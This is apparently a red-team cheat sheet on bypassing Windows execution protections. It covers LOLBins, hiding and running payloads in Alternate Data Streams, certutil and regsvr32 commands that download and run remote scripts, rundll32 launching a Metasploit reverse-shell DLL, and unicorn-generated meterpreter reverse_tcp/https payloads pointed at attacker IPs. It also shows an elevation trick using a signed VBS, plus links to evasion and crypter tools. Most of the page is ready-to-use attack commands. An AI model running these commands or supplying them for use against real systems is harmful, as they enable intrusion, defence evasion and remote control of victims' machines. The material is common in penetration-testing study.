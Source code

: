 # ⭕ Basic Tricks

## <mark style="color:red;">LOLBins</mark>

Using [LOLBins](https://lolbas-project.github.io/#) we can bypass some protections and execute malicious payloads.

{% embed url="https://lolbas-project.github.io" %}

{% hint style="info" %}
To search for a specific function in LOL binaries, use `/function` key word. for example : `/execute`
{% endhint %}

## <mark style="color:red;">Alternate Data Streams</mark>

#### Execute a `.EXE` file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\file.txt:program.exe"
```

Download and save a PS1 file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
```

Add content to an Alternate Data Stream (ADS).

```
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

Execute evil.dll which is stored in an Alternate Data Stream (ADS).

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Use cscript.exe to exectute a Visual Basic script stored in an Alternate Data Stream (ADS).

```
cscript c:\ads\file.txt:script.vbs
```

## <mark style="color:red;">Using DLLs & macros</mark>

We can create a DLL containing a Metasploit payload and then run it on the victim system via the rundll32.exe available in all versions of Windows. This is often available, even with SRP enabled, as it is located in C:\Windows and is not restricted by default in many SRP deployments. Scripts and macro payloads are also valuable. Macros especially tend to be allowed for complicated forms and other Office document functionality.

```
C:\> rundll32.exe reverse_shell.dll,Main
```

After we execute the command rundll32.exe CALC.dll,DoesntExist, our DLL will be loaded into memory, and our embedded Metasploit payload will be run through the initialization code. The DoesntExist parameter needs to be included, but it does not have to be a real function exported by the DLL

## <mark style="color:red;">Using Payload Wrappers</mark>

we can use various open source payload wrappers that add an extra layer to msfvenom payloads. not much of an FUD payload, but still effective.

{% embed url="https://github.com/trustedsec/unicorn" %}

for example with unicorn tool:

```
unicorn.py windows/meterpreter/reverse_tcp X.X.X.X 443 hta
```

or

```
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde
```

## <mark style="color:red;">System DLLs</mark>

we can use functions from system DLLs such as CMD screensaver.

```
C:\Windows> copy System32\cmd.exe Temp\cmd.scr
C:\Windows> rundll32.exe desk.cpl,InstallScreenSaver
```

## <mark style="color:red;">Multi-level Execution</mark>

By using multiple levels of execution, it could be possible to stumble into one that is explicitly allowed or has special privileges. Here we see `cmd.exe` running `cscript.exe`, which runs a VBS script included with Windows. This script can be abused to run other things. A great side effect of using this script: it is signed by Microsoft, and therefore often explicitly allowed to run. Then the PowerShell process is started, using a `“- Verb RunAs”` argument which attempts to re-establish `“High Integrity”` context, essentially giving an administrative user back their administration rights.

```
cmd.exe /c cscript.exe \windows\system32\SyncAppvPublishingServer.vbs ".;Start-Process rundll32.exe 'shell32.dll,ShellExec_runDLL cmd.exe' -Verb RunAs" 
```

we can do the same with powershell:

```
Powershell.exe -Command Set-ExecutionPolicy RemoteSigned -Scope Process; Powershell.exe -File "path to master script"
```

## <mark style="color:red;">Evasion Tools and Frameworks</mark>

{% embed url="https://github.com/hlldz/SpookFlare" %}

## <mark style="color:red;">Runners & Crypters</mark>

{% embed url="https://github.com/spyblocker/OSEP-Breaking-Chains" %}
